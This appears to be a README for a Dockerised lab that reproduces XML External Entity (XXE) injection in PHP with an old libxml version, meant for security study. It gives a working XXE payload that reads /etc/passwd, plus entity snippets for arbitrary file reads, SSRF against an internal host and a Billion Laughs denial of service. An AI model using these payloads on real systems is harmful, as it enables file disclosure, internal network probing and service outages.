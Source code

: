# PHP XML External Entity Injection (XXE)

[中文版本(Chinese version)](README.zh-cn.md)

XML External Entity (XXE) Injection is a vulnerability that occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This vulnerability can lead to various attacks including disclosure of confidential data, denial of service, server side request forgery, port scanning, and other system impacts.

After libxml 2.9.0, external entity parsing is disabled by default, which largely mitigated XXE vulnerabilities. This environment uses libxml 2.8.0 compiled into PHP to demonstrate XXE vulnerabilities in PHP applications.

References:

- [OWASP XXE Prevention Cheat Sheet](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- [PHP Documentation: libxml](https://www.php.net/manual/en/book.libxml.php)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## Environment Setup

This environment is based on the PHP 7.0.30 with libxml 2.8.0, execute the following command to start the environment:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080/index.php` to see the phpinfo page. You can verify the libxml version (2.8.0) by searching for "libxml" on that page.

The web root directory `./www` contains three vulnerable PHP files demonstrating different XML parsing methods:

```bash
$ tree .
.
├── dom.php               # Example: XML parsing using DOMDocument
├── index.php
├── SimpleXMLElement.php  # Example: XML parsing using SimpleXMLElement class
└── simplexml_load_string.php  # Example: XML parsing using simplexml_load_string function
```

All three files (`dom.php`, `SimpleXMLElement.php`, and `simplexml_load_string.php`) are vulnerable to XXE attacks.

## Vulnerability Reproduction

Send the following XML payload to any of the vulnerable files to read the contents of `/etc/passwd`:

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

The successful exploitation will display the contents of the file:

![](1.png)

### Advanced Exploitation Techniques

Reading Arbitrary Files:

```xml
<!ENTITY xxe SYSTEM "file:///path/to/sensitive/file" >
```

SSRF (Server-Side Request Forgery):

```xml
<!ENTITY xxe SYSTEM "http://internal.service.local" >
```

Denial of Service (Billion Laughs Attack):

```xml
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;">
```

